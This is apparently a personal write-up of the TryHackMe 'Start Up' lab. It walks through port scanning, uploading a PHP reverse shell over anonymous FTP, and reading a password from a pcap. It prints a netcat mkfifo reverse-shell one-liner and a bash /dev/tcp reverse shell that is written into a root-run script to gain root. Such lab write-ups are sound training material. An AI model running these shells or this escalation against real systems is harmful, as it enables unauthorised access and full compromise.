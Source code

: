 ```yaml
---
date: '2022-01-30'
title: Start Up
root: '/contents'
parents: ["TryHackMe"]
---
```


# Start Up

So, lets start with an nmap scan to look for any open ports.
## NMAP Scan 
![[Pasted image 20220130132141.png]]

We see 3 ports we can enumerate further with. FTP and http together what can go wrong?

Ports:
21 vsftpd 3.0.3
22 open SSH 7.2p2
80 Apache 2.4.18

Let's go into their webpage and see what we see.

## Web Server page
![[Pasted image 20220130132246.png]]

We are greeted with a page under development. So, let's do a directory scan with gobuster to see what directories are there.

## gobuster scan
![[Pasted image 20220130134051.png]]

We see a files directory an within that there is a subdirectory ftp, an image, and a txt file.

## /files directory in web server
![[Pasted image 20220130134251.png]]

And with the information from our nmap scan we can see that we can log into ftp with anonymous. Now, once we are in let's list directories with the command ls -la to see what we can find.

![[Pasted image 20220130142511.png]]

We see the usual 3 we saw earlier and a new one file which is .test.log which tells us we have write permission to upload files. So, let's change directory to ftp and upload a shell. Once, we get the php reverse shell in we just need to load the page on the browser with /files/ftp/shell.php this will pull up the CLI for us to activate the rev shell. 

We enter in the command rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc hostip 4444 >/tmp/f and get a netcat listener up. Let's look around to see what we can do. We find the recipe.txt on the root directory and if we go to home directory we can see the user.txt file for the user flag.

![[Pasted image 20220130142446.png]]

![[Pasted image 20220130143657.png]]


![[Pasted image 20220130144104.png]]

![[Pasted image 20220130150345.png]]

![[Pasted image 20220130150402.png]]

![[Pasted image 20220130153043.png]]

There is also a incident's folder that looks strange... As we investigate it we see a pcap file. We will need wireshark to view this. Once we get this open in wireshark we need to look for tcp data to follow so scroll down and the tcp stream to follow will be in the 170s range for user data information. Here, we can find Lennie's password.

With this information we can now ssh using lennie's credentials.

If we  go to user folder and check scripts folder we see a planner.sh, let's check the conents with nano. We see it calls a print.sh in etc directory. Let's go to that shell script and add 'bash -c "bash -i >& /dev/tcp/hostip/port 0>&1"' > /etc/print.sh

This will start another reverse shell that will grant us root once root privileges calls the script.

Start netcat listener on another terminal tab and now we are root!

We go to the root user folder and we see the root.txt file for our final flag.


